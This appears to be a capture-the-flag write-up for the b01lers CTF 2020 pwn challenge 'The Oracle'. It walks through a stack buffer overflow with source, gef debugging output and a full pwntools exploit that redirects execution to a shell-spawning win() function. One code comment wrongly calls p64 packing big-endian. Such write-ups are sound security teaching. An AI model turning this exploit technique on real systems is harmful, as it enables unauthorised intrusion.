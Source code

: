 # b01lers CTF 2020: Pwn - The Oracle (100 Points)

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/bo1lersctf2020-the_oracle/the_oracle_desc.PNG "Challenge Description")

From the challenge description we get 2 files to download, one is the binary running on the server `chal.ctf.b01lers.com:1015` and the other is the source code of that program. 

## Recon and Analysis

Running the program it will display a text `Know Thyself.` and waits for our input. When you scream at the program, eventually you will hit a `Segmentation fault`

```sh
kali@kali:~/Documents/b01lerctf/the_oracle$ ./theoracle 
Know Thyself.
AAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
kali@kali:~/Documents/b01lerctf/the_oracle$
```

Since we have the source code, lets give it a look to see what exactly are we dealing with.

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}
```

From the C code, we have our main function that `fgets()` our input into the `buffer[16]`. The function gets `127 bytes` as input and places them into `buffer` which has only `16 bytes` allocated, which will result in a buffer overflow if we give input of more than `16 bytes`. 

We have another function called `win()` which executes `/bin/sh` when called. But that function is never called inside our `main()` function. Perhaps the challenge is becoming a bit more clear now, we need to use the buffer overflow vulnerability in the code to _hopefully_ overwrite the instruction pointer `rip` and give `rip` the value of the `win()` function in memory to get executed. In short...

```
BoF > overwrite rip > win() > cat flag.txt
```

Lets make sure that there is no PIE (Position Independant Executable) in the binary, I like to use pwntools `checksec`

```sh
kali@kali:~/Documents/b01lerctf/the_oracle$ checksec theoracle
[*] '/home/kali/Documents/b01lerctf/the_oracle/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`No PIE`, now we are in business... There are multiple ways to know the address of a function, for example you can use `GDB` or `radare2` however, I will use `pwntools` to find the address of `win()` using `elf.symbols['win']`


## Writing the exploit and getting the flag

First we need to find the offset where we start overwriting the instruction pointer, I used `gef gdb` to create a cyclic pattern of 50 characters and which results in the following string.

```gdb
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
[+] Saved as '$_gef0'
```

Then I fed that string to the program's input and automatically, gdb will break at the segmentation fault.

```
gef➤  r
Starting program: /home/kali/Documents/b01lerctf/the_oracle/theoracle 
Know Thyself.
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Program received signal SIGSEGV, Segmentation fault.
```

The trick in this challenge is that you do not overwrite the `rip` directly, you overwrite the value of `rsp` which is the stack pointer. That value will be placed in `rip` after the execution of the `ret` instruction in `0x40123e <main+114>  ret` so the value of `rsp` is going to be the offset value we are looking for.

```
─────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
...         
$rsp   : 0x00007fffffffe148  →  "daaaaaaaeaaaaaaafaaaaaaaga\n"
...
$rip   : 0x000000000040123e  →  <main+114> ret 
...
─────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe148│+0x0000: "daaaaaaaeaaaaaaafaaaaaaaga\n"       ← $rsp
0x00007fffffffe150│+0x0008: "eaaaaaaafaaaaaaaga\n"
0x00007fffffffe158│+0x0010: "faaaaaaaga\n"
0x00007fffffffe160│+0x0018: 0x00000000000a6167 ("ga\n"?)
0x00007fffffffe168│+0x0020: 0x00007ffff7e137d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007fffffffe170│+0x0028: 0x0000000000000000
0x00007fffffffe178│+0x0030: 0x223d9461dea63a0d
0x00007fffffffe180│+0x0038: 0x00000000004010b0  →  <_start+0> endbr64 
───────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401233 <main+103>       call   0x401080 <fgets@plt>
     0x401238 <main+108>       mov    eax, 0x0
     0x40123d <main+113>       leave  
 →   0x40123e <main+114>       ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "theoracle", stopped 0x40123e in main (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40123e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search daaaaaaaeaaaaaaafaaaaaaaga
[+] Searching 'daaaaaaaeaaaaaaafaaaaaaaga'
[+] Found at offset 24 (big-endian search) 
gef➤  

```
From that dynamic analysis we can conclude the offset to be `24` which is `8 bytes` more than the original buffer's size.

### Exploit using pwntools

```python
from pwn import *

elf = context.binary = ELF("./theoracle") # Load the binary as an ELF
r = remote("chal.ctf.b01lers.com", 1015) # Connect to the remote server
context.log_level = 'INFO' # You can ignore that if you want

offset = 16+8 # Our calculated offset
win = elf.symbols['win'] # Getting the address value of the win() function from the "elf" object

# Creating the payload
payload = b""
payload += b"A"*offset
payload += p64(win) # Pack the address in big-endian format

r.recvuntil("\n") # Recieve until new line
r.sendline(payload) # Send the payload as input
r.interactive() # Wait for an interactive shell
r.close() # Close the remote connection (always good to do)
```

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/bo1lersctf2020-the_oracle/the_oracle_PoC_flag.PNG "we got the flag!")
